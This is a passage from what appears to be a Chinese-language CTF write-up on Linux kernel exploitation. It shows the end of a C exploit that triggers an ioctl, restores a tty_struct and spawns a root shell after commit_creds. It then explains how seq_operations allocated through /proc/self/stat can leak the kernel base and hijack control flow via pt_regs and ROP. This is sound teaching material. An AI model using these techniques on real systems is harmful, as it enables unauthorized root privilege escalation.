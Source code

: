 ```c
    // 好吧，如你所见，我改成0xdeadbeaf也可以
    info("exploiting ioctl...");
    ioctl(fd3, 0xdeadbeaf, 0xdeadbeaf);

    // 还原tty_struct
    info("fix the tty_struct...");
    write(fd2, origin_tty, 0x2d0);
    close(fd3);

    // 由于前面已经commit_creds(&init_cred)了，因此直接返回用户态起一个shell~
    get_root_shell();
}
```

### 解题思路3：seq_file（kmalloc-32, GFP_KERNEL_ACCOUNT）+ pt_regs

`seq_file`叫做序列文件接口`Sequence File Intreface`，其结构体如下：

```c
struct seq_file {
    char *buf;
    size_t size;
    size_t from;
    size_t count;
    size_t pad_until;
    loff_t index;
    loff_t read_pos;
    struct mutex lock;
    const struct seq_operations *op;
    int poll_event;
    const struct file *file;
    void *private;
};
```

而实际上，`seq_file`这个结构体我们是无法打开来申请内存空间的。但我们可以**通过`open("/proc/self/stat")`，来打开并申请`seq_operation`这个结构体**，也就是上面写的`seq_file`的函数指针表，其数据结构如下所示：

```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
```

可以看到，其中只含有四个函数指针。我们在申请到该结构体时，可以直接**读取其中的`start`函数，其实际上是内核函数`single_start`的地址**。由此可以泄露内核基地址。

而利用方式也很简单，只需要**对该结构体使用`read`，其就会调用`seq_operation->start`**。因此只要覆盖`start`函数指针，即可完成程序控制流劫持。但注意，该函数的参数是无法控制的，因此我们通常会选取其它数据结构一起，例如`pt_regs`配合`rop`。

**总结该结构体的利用方式：**

- 通过`open("/proc/self/stat")`来分配`seq_operation`结构体，`kmalloc-32, GFP_KERNEL_ACCOUNT`
